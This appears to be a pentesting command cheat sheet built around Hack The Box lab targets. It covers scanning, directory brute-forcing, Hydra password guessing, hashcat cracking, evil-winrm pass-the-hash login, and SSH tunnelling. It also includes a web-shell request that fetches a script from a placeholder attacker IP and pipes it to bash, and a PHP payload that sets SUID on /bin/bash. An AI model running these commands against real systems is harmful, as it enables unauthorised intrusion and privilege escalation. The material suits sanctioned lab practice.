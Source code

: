 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```

### 🔐 Evil-WinRM Access
```bash
evil-winrm -i administrator.htb -u administrator -H <NTLM_hash>   # Login using NTLM hash
evil-winrm -i administrator.htb -u administrator -p <password>    # Login using password

### 🔓 Cracking Hashes with Hashcat
```bash
# Auto-detect hash mode (not recommended for reliability)
hashcat -a 0 hash.txt /home/kali/Documents/rockyou.txt

# Specified mode (Apache $apr1$ MD5)
hashcat -m 1600 -a 0 hash.txt /home/kali/Documents/rockyou.txt
```

### ⚡ Privilege Escalation via SUID Bash (PHP RCE)
```php
<?php exec("chmod +s /bin/bash"); ?>
```
Then on the target:
```bash
/bin/bash -p  # Run with elevated privileges if SUID is set
```

### 🛠️ Hydra Brute-Force Examples
```bash
# SSH login
hydra -L usernames.txt -P password.txt 10.129.226.117 ssh 

# HTTP Basic Auth Brute Force
hydra -L users.txt -P passwords.txt 10.129.54.238 http-get /admin
```

### 📂 FTP Enumeration with Anonymous Login
```bash
# Check FTP banner and anonymous login
ftp 10.129.54.238

# If you see code 230:
# 230 Login successful.
# You have access to browse and download/upload if permitted

# Listing files
ls

# Downloading a file
get filename.txt
```

### 🔐 SSH Usage Basics
```bash
# Connect to SSH server
ssh username@10.129.226.117

# Use custom port (if not default 22)
ssh -p 2222 username@10.129.226.117

# Use private key for authentication
ssh -i /path/to/private_key.pem username@10.129.226.117

# Run a single command over SSH
ssh username@10.129.226.117 'ls -la /var/www/html'

# Local Port Forwarding
# Forwards localhost:8080 to target:80 via SSH tunnel
ssh -L 8080:target.internal:80 username@10.129.226.117

# Remote Port Forwarding
# Opens port 9090 on the remote server and sends it to your local port 3000
ssh -R 9090:localhost:3000 username@10.129.226.117
```

### 📡 Checking Open Ports with `ss`
```bash
# List all listening TCP ports
ss -tln

# Breakdown:
# -t : TCP sockets
# -l : Listening sockets
# -n : Show port numbers (no DNS resolution)

# Example output:
# State     Recv-Q     Send-Q         Local Address:Port        Peer Address:Port
# LISTEN    0          128            0.0.0.0:22                0.0.0.0:*
```
